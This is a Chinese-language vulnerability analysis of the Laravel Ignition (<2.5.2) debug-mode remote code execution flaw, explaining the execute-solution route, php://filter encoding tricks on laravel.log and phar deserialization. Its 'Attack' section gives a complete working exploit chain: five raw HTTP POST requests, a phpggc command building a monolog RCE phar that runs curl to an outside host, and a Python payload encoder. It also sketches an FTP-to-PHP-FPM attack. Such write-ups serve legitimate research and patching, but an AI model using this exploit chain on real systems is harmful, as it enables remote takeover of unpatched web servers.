 [TOC]

# 0x00 漏洞成因

影响版本：Ignition<2.5.2

根据补丁来diff，发现补丁位于Ignition的一个Solution子类中。根据Igniter源码发现存在路由，找到ExecuteSolution路由可以动态执行Solution。

构造路由请求有洞的Solution。

POST /\_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 121

solution=Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution&parameters\[variableName\]=123&parameters\[viewFile\]=abc

这个漏洞是先通过`file_get_contents()`读取文件内容，然后进行一些修改。最后使用`file_put_contents()`保存文件。大概代码如下：

$output = file\_get\_contents($parameters\['viewFile'\]);

//省略xxx（对$output做一些处理）
//xxx

file\_put\_contents($parameters\['viewFile'\], $output);

由于这里无法任意修改`$content`，因此`$content`没有利用价值。把目光放到`viewFile`。由于文件协议可控，因此这里可以尝试利用`phar`来进行反序列化。

如果想要使用phar，首先需要可以控制服务器上的一个完整的文件，刚好laravel的日志文件`storage/logs/laravel.log`就可以利用。通过本漏洞的路由请求一个不存在的文件名作为`viewFile`的值，就可以把这个值保存到log文件中。

[![](vx_images/198355816257875.xml)](https://xzfile.aliyuncs.com/media/upload/picture/20210130165439-c9259652-62d8-1.png)

[![](vx_images/195145816260271.xml)](https://xzfile.aliyuncs.com/media/upload/picture/20210130165503-d79f99b2-62d8-1.png)

可以看到有三处POCPOCPOC被写入（最后一处在stack中，因此如果POC超过15位，则从16位开始变成...，也就是123456789012345...）。可是phar反序列化需要一个干净的phar文件，而这个文件在POC的两侧都有垃圾字符。因此下面需要尝试把垃圾字符去掉，只保留我们的POC

# 0x01 去掉垃圾字符

这里漏洞发现者想要通过`php://filter`过滤器来对文件进行一些操作。

这里主要的思路是先把我们的poc进行一些编码，最后再使用`php://filter/write=`来进行相应的解码，解码的同时去掉log中的其他字符。

为了方便后续的操作，首先是通过多次base64解码来清空log中之前的信息。第一次base64解码会把原文件变成乱码，再进行多次解码即可基本清空文件。可能一次请求后会抛出一个base64解码的warning到日志文件中。只需要再请求一次即可。

`php://filter/read=convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=xxx/storage/logs/laravel.log`

然后就是去掉发送poc时其他的垃圾字符，这里会用到一些编码知识。主要就是`utf-16le`和`utf-8`的区别，`utf-16le`是两个字节代表一个字符（le是指小端模式），`utf-8`是一个字节代表一个字符。利用这个特性，我们可以把一串`utf8`字符当作`utf16`，在这样转换时字符串就会变成非ascii的乱码。由于这些是非ascii字符，因此使用base64解码时会被清空。php过滤器中刚好存在这些过滤器，即`php://filter/read=convert.iconv.utf-16le.utf-8/resource=xxx.txt`，是指把xxx.txt的内容视作`utf16`，并将其转换成`utf8`。

综上所述，我们可以先把POC base64编码，然后进行utf-8转utf-16le。在读log文件时先进行utf-16le转utf-8，这样之前的字符都会变成乱码而POC不会，然后使用base64解码，就会去掉乱码，只剩下POC明文。

构造payload的过程就是`明文->base64->utf8转utf16le`，下面看如何构造这个payload，也就是utf-8如何转成utf-16le，这里做个实验，看看两者的区别。

<?php
$filename \= "php://filter/write=convert.iconv.utf-8.utf-16le/resource=kkk4.txt"; //utf-16le编码写入文件
//$filename = "kkk4.txt";//utf-8写入文件

file\_put\_contents($filename, "<? abc$%^&\*();");

两种编码写入的文件依次如下，可以发现utf-16le编码会在utf-8的字符后加上一个`\00`空字节。

[![](vx_images/192095816242391.xml)](https://xzfile.aliyuncs.com/media/upload/picture/20210130165542-eecc4f36-62d8-1.png)

[![](vx_images/189035816246637.xml)](https://xzfile.aliyuncs.com/media/upload/picture/20210130165536-eb47e21c-62d8-1.png)

utf-8转utf-16le需要在每个字符**后面**加上一个`\00`字节，因此可以在HTTP请求中加上`%00`替代。不过`%00`会导致file\_get\_contents()报错，因此要使用别的方法。

这里就要介绍`convert.quoted-printable-encode`过滤器，它可以把所有的不可见字符转换成`=xx`，比如把`\00`转换成`=00`。

这是思路就清晰了，先举个简单的例子，首先构造一个代表`poc`base64编码的字符串`cG9j`的payload：  
`asdfaasdabcdc=00G=009=00j=00defasdfasdf`，可以看到两侧都是垃圾字符。  
读取时，使用如下的过滤器：  
`php://filter/read=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=xxxx/laravel.log`，最终即可把poc还原出来。

在实际利用时有不少坑点

1.之前说了`laravel.log`文件中有三处会显示我们的payload，其中最后一处当payload过长时，从第十六个字符开始都会省略成`...`，因此我们要保证第十六个字符不在`=`的后两位，比如`=0.`、`=..`会导致`quoted-printable-decode`过滤器返回空结果。因此需要在payload前填充15个字符，让第三处不显示payload即可。  
2.由于`convert.quoted-printable-decode`会对`=`当作特殊字符，因此base64结尾可能有的`=`会造成解析出错（原因与2一样），因此需要手动把base64编码后的`=`替换成`=3D`，对于base64编码中的`+`最好也替换成`=2B`。  
3.发送poc之后，使用过滤器来解析log时，如果laravel.log最终的字节数为奇数，那么在`utf-16le->utf-8`时又会抛出一条新日志，这样后续的base64 decode就会失败了。由于我们的poc会在log中出现两次，因此所有poc字符数必然是偶数个，影响log文件字符数奇偶的只能是log框架文本本身的字符数。只要在我们发送poc之前提前发送一个偶数文件名的请求，这样最终的log中就会有两次log框架本身的字符，因此必为偶数。

# 0x02 Attack

## step0 清除原log中的字符

```
POST /\_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 217

solution=Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution&parameters\[variableName\]=123&parameters\[viewFile\]=php://filter/write=convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=../storage/logs/laravel.log

```
## step1 发送偶数文件名的请求

（对应坑3）

```
POST /\_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

solution=Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution&parameters\[variableName\]=123&parameters\[viewFile\]=11

```
## step2 发送poc

```
POST /\_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 2401

solution=Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution&parameters\[variableName\]=123&parameters\[viewFile\]=xxxxx

```

`xxxxx`就是payload，通过以下步骤获得：

```
./phpggc monolog/rce1 system "curl http://ip/success" --phar phar -o php://output | base64
```

把输出的结果经过下面的python脚本转换一下：

```
from binascii import b2a\_hex
payload \= "xxx" \# base64 payload
armedPayload \= ''
for i in payload:
    i \= "="+b2a\_hex(i.encode('utf-8')).decode('utf-8').upper()
    armedPayload += i+"=00"
print("123456789012345"+armedPayload)#前面加15个字符，对应坑1

```
这里输出的结果直接放到上面的文件名中。

## step3 清空垃圾字符，poc解码成phar文件内容

```
POST /\_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 310

solution=Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution&parameters\[variableName\]=123&parameters\[viewFile\]=php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```

## step4 触发phar反序列化

```
POST /\_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 206

solution=Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution&parameters\[variableName\]=123&parameters\[viewFile\]=phar:///xxxx/laravel/storage/logs/laravel.log
```

注意这里的路径要换成`laravel.log`的绝对路径。

# 0x03 思考

在刚拿到这个漏洞时仅看了漏洞通告以及git补丁，先通过Ignition文档了解了Solution的作用和调用方式，然后发现Solution似乎只有在`blade`模版出错时才会被调用到，可是没法手动指定模版，所以这个洞也就没有找到入口。看了眼exp的url，发现竟然是诡异的`/_ignition/`，这个路由在Laravel给的Controller中是没有的。翻了下Ignition的源码，发现这个项目动态添加了路由并注册了几个Controller，最后才到了调用点。

这个漏洞的主要攻击方式就是phar，不过最有意思的点是利用`php://filter`伪协议将一个部分可控的文件变成完全可控，这个漏洞是先通过`file_put_contents()`写文件时用`php://filter/write=xxx`来进行解码，其实也可以使用`php://filter/read=xxx`在`file_get_contents()`处进行解码。

对于这个漏洞，发现者还提出了一种利用FTP被动模式攻击PHP-FPM的攻击思路。第一次使用`file_get_contents()`请求恶意ftp请求，获取payload，然后通过`file_put_contents()`结合FTP被动模式，把上面的payload发送到php-fpm的端口实现RCE。

这里贴两篇文章，以后再细说，留个坑。：）

[技术干货 | LARAVEL <= V8.4.2 调试模式下的RCE分析](https://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247499853&idx=1&sn=225ce332407f61a2181b636e86545dab&chksm=)

[hxp2020的resonator题解分析](https://www.anquanke.com/post/id/226750)

# 0x04 参考

[Laravel <= v8.4.2 debug mode: Remote code execution](https://www.ambionics.io/blog/laravel-debug-rce)  
[PHP Conversion Filters](https://www.php.net/manual/en/filters.convert.php)  
[Using solution providers](https://flareapp.io/docs/solutions/using-solution-providers)
